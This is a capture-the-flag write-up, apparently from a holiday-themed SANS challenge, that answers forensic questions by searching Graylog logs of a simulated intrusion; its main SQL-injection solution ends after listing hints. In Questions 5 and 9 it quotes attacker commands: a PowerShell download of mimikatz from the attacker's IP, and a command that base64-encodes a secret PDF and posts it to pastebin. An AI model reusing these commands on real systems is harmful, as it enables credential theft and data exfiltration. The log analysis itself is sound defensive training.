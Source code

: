 ## Problem Statement:

> 9) Retrieve Scraps of Paper from Server  
> Difficulty: 4/5  
> Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system? For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.


===============================================================================
## Solution(hint):

First let's visit Pepper Minstix in the _Dorm_ for the hint.  
He needs us to complete the Incidence Response form using the Graylog instance.

hint given for this sub-problem:

> [Graylog Docs](http://docs.graylog.org/en/3.1/pages/queries.html)  
> (Events and Sysmon)

Let's get into the terminal:

![](./res/pic1.png)

Bottom right is the Incidence Response form to complete.  
Login using the following credentials:  
> username: elfustudent  
> password: elfustudent


### Question 1:  
> What is the full-path + filename of the first malicious file downloaded by Minty?

Search in all messages and without time filter.  
search: `UserAccount:minty AND EventID:1 AND Download*`  and sort by earliest timestamp

Answer: **C:\Users\minty\Downloads\cookie_recipe.exe**

### Question 2:  
> The malicious file downloaded and executed by Minty gave the attacker remote access to his machine. What was the ip:port the malicious file connected to first?

Search: `ProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe AND _exists_:DestinationIp`

Answer: **192.168.247.175:4444**

### Question3:  
> What was the first command executed by the attacker?

Search: `ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe`  
Follow the CommandLine output.

Answer: **whoami**

### Question 4:  
> What is the one-word service name the attacker used to escalate privileges?

Continue search: `ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe`  
Further down the timestamp will find Invoke-WebRequest to download another .exe and start webexservice.

Answer: **webexservice**

### Question 5:  
> What is the file-path + filename of the binary ran by the attacker to dump credentials?

Attacker has download cookie_recipe2.exe, so we pivot from cookie_recipe2.exe.  
Search: `ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe2.exe`  
Down the timestamp we will see a command line:  
> C:\Windows\system32\cmd.exe /c "Invoke-WebRequest -Uri http://192.168.247.175/mimikatz.exe -OutFile C:\cookie.exe "  
Mimikatz is used to dump credentials.

Answer: **C:\cookie.exe**

### Question 6:  
> The attacker pivoted to another workstation using credentials gained from Minty's computer. Which account name was used to pivot to another machine?

Search : `EventID: 4624 AND SourceNetworkAddress:192.168.247.175`  
EventID: 4624 is generated when there is successful network login

Answer: **alabaster**

### Question 7:  
> What is the time ( HH:MM:SS ) the attacker makes a Remote Desktop connection to another machine?

search `SourceNetworkAddress:192.168.247.175 AND LogonType: 10`  
LogonType:10 refers to RDP login.  
Look for EventID:4624, as 4625 is failed login.

Answer: **06:04:28**

### Question 8:  
> The attacker navigates the file system of a third host using their Remote Desktop Connection to the second host. What is the SourceHostName,DestinationHostname,LogonType of this connection?

At RDP login, the hostname was elfu-res-wks2.  
Search: `SourceHostName: elfu-res-wks2` --reveals a logonType:3 to elfu-res-wks3.

Answer: **elfu-res-wks2,elfu-res-wks3,3**

### Question 9:  
> What is the full-path + filename of the secret research document after being transferred from the third host to the second host?

Continue search: `UserAccount: alabaster`  
Reveals a command line:  
> C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri https://pastebin.com/post.php -Method POST -Body @{ "submit_hidden" = "submit_hidden"; "paste_code" = $([Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf"))); "paste_format" = "1"; "paste_expire_date" = "N"; "paste_private" = "0"; "paste_name"="cookie recipe" }

Answer: **C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf**

### Question 10:  
> What is the IPv4 address (as found in logs) the secret research document was exfiltrated to?

Continuing from previous question, look for DestinationIP.

Answer: **104.22.3.84**


## Solution(main):

Solving the hint problem will give us the following hints:

> [SQL Injection from OWASP](https://www.owasp.org/index.php/SQL_Injection)  
> [Sqlmap Tamper Scripts](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)





